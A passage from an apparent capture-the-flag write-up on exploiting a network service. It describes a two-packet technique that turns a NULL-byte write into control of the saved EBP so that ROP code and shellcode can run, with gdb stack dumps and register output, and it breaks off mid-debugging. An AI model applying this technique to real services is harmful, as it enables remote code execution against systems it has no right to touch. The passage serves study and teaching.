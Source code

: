 Options 2 and 3 both take the filename from the current packet, but option 1 is different: it takes the filename stored in the session structure from the packet that started the session. So, if we use that, we can put a long filename in the first packet, which controls the index into the stack frame, and a shorter filename in the subsequent packet, which controls the size of the stack frame. This allows us to extend our reach into the desired stack frame after our packet data. There is also a secondary advantage to doing it this way: since the second packet does not end up going in the format string, we can freely use NULL-values in it (which is where our ROP code and shellcode will be). Being able to use NULL is a big help for setting up the parameters to mmap. Note that for this to work, the session must not be unlinked after the first packet (i.e. we need a valid GET or PUT request). Let's look at the stack frames that demonstrate this:

<pre>
1: x/i $eip
=> 0xb77d2f7d:  mov    BYTE PTR [ebp+eax*1-0x218],0x0
(gdb) stack
 # | Size |    PC    |  Frame   |   Arg1   |   Arg2   |   Arg3   |   Arg4   | Symbol
---+------+----------+----------+----------+----------+----------+----------+--------
 0 |  230 | b77d2f7d | bfe4ec80 | b9331d20 |        4 | b77d4b7c | b9331d48 | sock_errorf
 1 |   60 | b77d36d5 | bfe4ece0 | b931b810 |     115c |  202000a |     e8d4 | HandleUser
 2 |   30 | b77d00ed | bfe4ed10 | b931b810 |     115c |  202000a |     e8d4 | DoHandleUser
 3 |  320 | b77d066f | bfe4f030 | b931b810 | b7721d9c | bfe4f040 |        0 | recv_pkt
 4 |   20 | b77d0725 | bfe4f050 | b931b810 | bfe4f078 | b77d012d | b77d0102 | check_recv_pkt
 5 |   20 | b77d0111 | bfe4f070 | b931b810 | b77d00b4 |    20000 | b77d0215 | recvLoop
 6 |   50 | b77d029f | bfe4f0c0 | b77d3df0 |        0 | bfe4f148 | b7672ca6 | main
 7 |   90 | b7672ca6 | bfe4f150 | b77d01bb |        1 | bfe4f174 | b77d3df0 | __libc_start_main
 8 |    0 | b77d0021 | bfe4f150 | b77d01bb |        1 | bfe4f174 | b77d3df0 |
(gdb) print $eax
$14 = 1480
(gdb) print $ebp+$eax-0x218
$15 = (void *) 0xbfe4f028
</pre>

In this case, EAX is the return value from __vsnprintf_chk: 1480, however the packet we sent fits into the 0x320 (800 decimal) sized stack frame for recv_pkt. We're about to write a NULL byte into EBP+EAX-0x218 => 0xbfe4f028, which is the low-order byte of the saved EBP value on stack frame 3. Unfortunately, due to the ASLR layout we received this time, this means we will set EBP => 0xbfe4f000, which is not in our controlled space. I could not figure out a way to exploit this ASLR layout, so instead I will just crash the service and allow it to be restarted with a different stack alignment. Let's look at a more favorable stack layout:

<pre>
1: x/i $eip
=> 0xb775ff7d:  mov    BYTE PTR [ebp+eax*1-0x218],0x0
(gdb) stack
 # | Size |    PC    |  Frame   |   Arg1   |   Arg2   |   Arg3   |   Arg4   | Symbol
---+------+----------+----------+----------+----------+----------+----------+--------
 0 |  230 | b775ff7d | bfed1a10 | b9133a60 |        4 | b7761b7c | b9133c60 | sock_errorf
 1 |   60 | b77606d5 | bfed1a70 | b9131810 |     115c |  202000a |     92b5 | HandleUser
 2 |   30 | b775d0ed | bfed1aa0 | b9131810 |     115c |  202000a |     92b5 | DoHandleUser
 3 |  320 | b775d66f | bfed1dc0 | b9131810 | b76aed9c | bfed1dd0 |        0 | recv_pkt
 4 |   20 | b775d725 | bfed1de0 | b9131810 | bfed1e08 | b775d12d | b775d102 | check_recv_pkt
 5 |   20 | b775d111 | bfed1e00 | b9131810 | b775d0b4 |    20000 | b775d215 | recvLoop
 6 |   50 | b775d29f | bfed1e50 | b7760df0 |        0 | bfed1ed8 | b75ffca6 | main
 7 |   90 | b75ffca6 | bfed1ee0 | b775d1bb |        1 | bfed1f04 | b7760df0 | __libc_start_main
 8 |    0 | b775d021 | bfed1ee0 | b775d1bb |        1 | bfed1f04 | b7760df0 |
(gdb) print $eax
$32 = 1480
(gdb) print $ebp+$eax-0x218
$33 = (void *) 0xbfed1db8
(gdb) x/wx 0xbfed1db8